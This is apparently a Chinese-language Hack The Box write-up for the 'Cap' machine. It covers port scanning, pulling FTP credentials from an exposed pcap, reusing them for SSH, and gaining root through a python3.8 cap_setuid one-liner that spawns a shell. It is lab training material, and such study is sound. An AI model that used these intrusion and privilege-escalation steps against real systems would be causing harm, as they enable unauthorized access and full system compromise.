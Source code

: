 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。


# 服务探测
```
┌──(root💀kali)-[~/htb/cab]
└─# nmap -sV -Pn 10.10.10.245
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-28 08:33 EST
Nmap scan report for 10.10.10.245
Host is up (0.35s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

```

## 服务枚举分析
ftp不可以匿名登录

爆破目录没啥发现

80服务打开是一个像网络管理之类的后台（无需登录），展示了三个栏目分别对应ifconfig，netstat和截取流量服务（可以下载靶机的pcap文件）

看来攻击点主要在80端口

后台的用户名叫：```nathan```

在```http://10.10.10.245/data/1```这个页面每个5秒钟会更新一个pcap文件，当前时间可以下载最新的文件，循环范围是1-5

但是有登录信息的文件藏在0号文件里，也就是```http://10.10.10.245/data/0```

惊不惊喜，意不意外？


把第0个pcap文件下载到本地，用wireshark打开

第36个数据报找到ftp用户名：```nathan```

第40个数据报找到ftp密码：```{就不告诉你}```

## 登录ftp
```
┌──(root💀kali)-[~/htb/cap]
└─# ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:root): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alh
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Nov 28 15:32 user.txt
226 Directory send OK.

```


我们顺利登录到了ftp，看上去是```nathan```用户的home目录，看见有user.txt，但是我们没有权限读。

## 初始shell

很多懒惰的管理员都习惯用同样的登录信息用于各种服务，尝试用上面的登录凭证登录到ssh
```
┌──(root💀kali)-[~/htb/cap]
└─# ssh nathan@10.10.10.245                                       
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov 28 16:00:07 UTC 2021

  System load:  0.0               Processes:             225
  Usage of /:   36.6% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There are 2 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ pwd
/home/nathan
nathan@cap:~$ ls 
user.txt

```

拿到user.txt

# 提权

传linpea，发现python有setuid的能力

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
用python提权

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id       
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# whoami
root

```


